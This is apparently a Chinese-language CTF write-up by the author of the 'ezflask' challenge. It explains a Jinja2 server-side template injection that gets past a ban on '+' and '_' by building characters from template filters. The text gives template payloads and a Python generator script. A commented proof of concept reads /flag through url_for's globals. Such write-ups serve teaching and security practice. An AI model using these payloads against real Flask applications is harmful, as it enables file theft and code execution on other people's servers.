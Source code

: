 ### <a class="reference-link" name="ezflask"></a>ezflask

出这个题是想自己挖一点新的的东西,出来,然后看了 python 源码剖析,本来的想法是利用 code 类,构造字节码执行命令,,但是后来发现其实不用找基类就可以执行任意命令,就没那样出,然后这个 trick 出给别的地方了,当时还有另一个想法,就是没有 requests,chr,还能不能构造任意字符呢,然后为了增加难度,就随手 ban 了+,_,自己试着挖出来一种利用方式,就有了这个题,

```
get % 
找到特殊字符&lt;,url 编码,得到% 
`{`%set pc = g|lower|list|first|urlencode|first%`}` 

get 'c' 
`{`%set c=dict(c=1).keys()|reverse|first%`}` 
字符串拼接 
`{`%set udl=dict(a=pc,c=c).values()|join %`}` 
这样就可以得到任意字符了 
get _ 
`{`%set udl2=udl%(95)%`}``{``{`udl`}``}` 
`{`%set all=dict(a=all,c=res).values()|join %`}`
```

写个脚本

```
payload = '`{`%set pc = g|lower|list|first|urlencode|first%`}``{`%set c=dict(c=1).keys()|reverse|first%`}``{`%set udl=dict(a=pc,c=c).values()|join %`}`' 
payload = '' 

def get_alp(alp, goal): 
    num = ord(alp) 
    result = '`{`%set `{`goal`}`=dict(a=`{`goal`}`,c=udl%(`{`num`}`)).values()|join %`}`'.replace( 
        '`{`num`}`', str(num)).replace('`{`goal`}`', goal) 
    return result 

def get_word(des, goal): 
    # goal = 'ds2' 
    # des = '__globals__' 
    result = '' 
    for i in des: 
        result += (get_alp(i, goal)) 
    return result 

def main(): 
    # poc = "url_for.__globals__.__builtins__.open('/flag').read()" 
    i = 0 
    while(1): 
        text = input('&gt;') 
        print('i'+str(i), end=':') 
        print(get_word(text, 'i'+str(i))) 
        i += 1 

main()
```
